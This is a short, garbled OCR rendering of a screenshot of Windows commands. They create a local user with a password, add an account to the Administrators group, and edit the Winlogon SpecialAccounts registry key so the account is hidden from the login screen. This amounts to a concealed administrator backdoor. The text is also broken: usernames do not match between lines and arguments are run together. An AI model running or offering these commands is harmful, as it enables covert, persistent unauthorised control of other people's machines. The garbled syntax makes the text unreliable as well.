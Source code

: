 net user Michael @Gddrgddgg0070 /add

net localgroup Administrators Aminshahdi/add

reg add

"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist"

/v Aminshahdi/t REG

DWORD /d

0/f
